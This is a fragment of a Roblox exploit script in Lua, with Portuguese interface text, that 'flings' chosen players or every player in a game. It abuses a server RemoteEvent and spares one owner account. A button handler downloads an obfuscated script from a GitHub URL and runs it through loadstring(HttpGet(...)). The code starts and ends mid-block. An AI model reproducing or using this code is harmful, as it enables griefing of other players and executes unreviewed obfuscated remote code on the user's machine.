     end
end

if not Welcome then Message("Cartola Center Team!", "Aproveite!", 5) end
getgenv().Welcome = true
if Targets[1] then for _,x in next, Targets do GetPlayer(x) end else return end

if AllBool then
    for _,x in next, Players:GetPlayers() do
        SkidFling(x)
    end
end

for _,x in next, Targets do
    if GetPlayer(x) and GetPlayer(x) ~= Player then
        if GetPlayer(x).UserId ~= 4550163963 then
            local TPlayer = GetPlayer(x)
            if TPlayer then
                SkidFling(TPlayer)
            end
        else
            Message("Ocorrreu um Erro", "Este usuÃ¡rio estÃ¡ na lista de permissÃµes ! (Owner)", 5)
        end
    elseif not GetPlayer(x) and not AllBool then
        Message("Ocorreu um Erro", "Nome de UsuÃ¡rio Invalido", 5)
    end
end

local args = {

    [1] = "PickingTools",

    [2] = "Couch"

}

 

game:GetService("ReplicatedStorage").RE:FindFirstChild("1Too1l"):InvokeServer(unpack(args))


    end

})

local Section = Tab:AddSection({

	Name = "Fling na Pessoa que Descer do Sofa"

})

Tab:AddButton({

    Name = "Fling na Pessoa que Descer do Sofa",

    Callback = function()

        loadstring(game:HttpGet(('https://raw.githubusercontent.com/0Ben1/fe/main/obf_5wpM7bBcOPspmX7lQ3m75SrYNWqxZ858ai3tJdEAId6jSI05IOUB224FQ0VSAswH.lua.txt'),true))()

    end
